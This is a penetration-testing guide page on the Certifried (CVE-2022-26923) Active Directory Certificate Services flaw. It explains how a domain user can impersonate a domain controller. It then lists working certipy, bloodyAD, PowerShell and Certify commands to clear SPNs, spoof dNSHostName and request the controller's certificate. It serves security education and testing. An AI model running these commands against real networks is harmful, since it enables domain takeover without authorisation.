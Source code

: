 ```yaml
---
description: CVE-2022–26923
---
```


# Certifried

## Theory

[Certifried (CVE-2022-26923)](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) is a vulnerability discovered by [Oliver Lyak](https://twitter.com/ly4k\_) on AD CS that lets a domain-joined user escalate its privileges in the domain.

A domain user creating a computer account obtains the `Validated write to DNS host name` and `Validated write to service principal name` permissions (among other rights). Therefore, the user is allowed to change the DNS host name (`dNSHostName`) and SPN (`servicePrincipalName`) attributes of the computer account.

Computer accounts (using the `Machine` template) use the value of the `dNSHostName` property for authentication. Attempting to change the `dNSHostName` to match another computer account raises a constraint error.

In fact, the moment the `dNSHostName` property is edited, the domain controller makes sure to update the existing SPNs of the account so that the "hostname" part of it is updated to the new DNS hostname. If the SPNs already exist for another account in Active Directory, the domain controllers raises the constraint violation.

The trick found by Oliver goes as follows:

1. clear the SPNs (or at least those that reflect the `dNSHostName` value, i.e. the ones with fully-qualified hostnames, e.g. `HOST/SRV01.DOMAIN.LOCAL`)
2. change to `dNSHostName` to a target's DNS hostname (e.g. `DC.DOMAIN.LOCAL`). The constraint violation won't be raised since there won't be any SPN to update
3. request a certificate for the computer account using the `Machine` template. The Certificate Authority will use the `dNSHostName` value for identification and issue a certificate for the Domain Controller.
4. Authenticate as the DC.

A patch was released in may 2022 to address this vulnerability: [more information here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4#db1c) and on [#certificate-mapping](certificate-templates.md#certificate-mapping "mention").

## Practice

### Detecting unpatched targets

Requesting a certificate based on the `Machine` (or `User`) template can indicate whether the patch has been applied or not. If the certificate object contains an SID (`objectSid`), then the patch has been applied.

{% tabs %}
{% tab title="UNIX-like" %}
This check can be conducted using [Certipy](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwjCp86j1fb3AhWpzYUKHSMeBFoQFnoECA8QAQ\&url=https%3A%2F%2Fgithub.com%2Fly4k%2FCertipy\&usg=AOvVaw1D9CAn7Ysn5XMdezp8Aemb) (Python).

{% code overflow="wrap" %}
```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User'
```
{% endcode %}

If Certipy doesn't print `Certificate object SID is [...]` after obtaining the certificate, then the attack can be conducted.

{% hint style="warning" %}
Oliver [underlined](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4#08a1) the fact that to fully mitigate the vulnerability, both the KDC and the CA server must be patched.
{% endhint %}
{% endtab %}

{% tab title="Machine" %}
_At the time of writing this recipe, June 2022, no Windows alternative has been found._
{% endtab %}
{% endtabs %}

### Conducting the attack

#### Creating a computer account

The first step of the attack consists in creating a computer account ([broken-reference](../../../ad/movement/ad-cs/broken-reference/ "mention"), [broken-reference](../../../ad/movement/ad-cs/broken-reference/ "mention")), or have the write permission to the `dNSHostName` and `servicePrincipalName` attributes of another.

#### `dNSHostName` and `servicePrincipalName` modification

The second step is conducted by removing the SPNs that reflect the `dNSHostName` value, and then modifying the `dNSHostName` to the name of the computer account to impersonate.

{% tabs %}
{% tab title="UNIX-like" %}
The [bloodyAD](https://github.com/CravateRouge/bloodyAD) (Python) tool can be used on UNIX-like systems to operated these changes.

{% code overflow="wrap" %}
```bash
# Clearing the SPNs
bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP set object $COMPUTER_NAME serviceprincipalname

# Setting the dNSHostName value to the name of a computer account to impersonate
bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP set object $COMPUTER_NAME dnsHostName -v '$DC_NAME.$DOMAIN'

# Verifying the dNSHostName value and SPN entries
bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP get object $COMPUTER_NAME --attr dnsHostName,serviceprincipalname
```
{% endcode %}

[Certipy](https://github.com/ly4k/Certipy) tool can also add a machine account and amend the `dNSHostName` property with the following command liner.

<pre class="language-bash"><code class="lang-bash"><strong># Adding a computer account and setting the dNSHostName to impersonate
</strong>certipy account create -u '$USER@DOMAIN' -p '$PASSWORD' -user '$COMPUTER_NAME' -pass '$COMPUTER_PASS' -dns '$DC_NAME.$DOMAIN'
</code></pre>

{% hint style="info" %}
The Domain Components (DC) are the different parts of the domain name (`DC=domain,DC=local` for `domain.local`, or `DC=sub,DC=domain,DC=local` for `sub.domain.local`).
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
The [Active Directory RSAT](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) tools can be used on Windows systems to operate these changes.

```bash
# Clearing the SPNs
Set-ADComputer $COMPUTER_NAME -ServicePrincipalName @{}

# Setting the dNSHostName value to the name of a computer account to impersonate
Set-ADComputer $COMPUTER_NAME -DnsHostName $DC_NAME.$DOMAIN_FQDN

# Verifying the dNSHostName value and SPN entries
Get-ADComputer $COMPUTER_NAME -properties dnshostname,serviceprincipalname
```
{% endtab %}
{% endtabs %}

#### Obtaining a certificate

The third and last step consists in getting the certificate of the targeted machine account (`$DC_NAME` in the previous command examples).

{% tabs %}
{% tab title="UNIX-like" %}
[Certipy](https://github.com/ly4k/Certipy) (Python) can be used to request the certificate from UNIX-like systems.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>certipy req -u 'compter$'@"$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'Machine'
</strong></code></pre>

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
[Certify](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwiQmZer1fb3AhVBhRoKHSCyAMoQFnoECAcQAQ\&url=https%3A%2F%2Fgithub.com%2FGhostPack%2FCertify\&usg=AOvVaw0HjmYWwbHvGKTA3-f1iPP0) (C#) can be used to request the certificate from Windows systems.

{% code overflow="wrap" %}
```batch
Certify.exe request /ca:"domain\ca" /template:"Machine"
```
{% endcode %}

The certificate can then be used with [Pass-the-Certificate](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate) to obtain a TGT and authenticate.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4" %}

{% embed url="https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923" %}

{% embed url="https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html" %}

{% embed url="https://tryhackme.com/room/cve202226923" %}
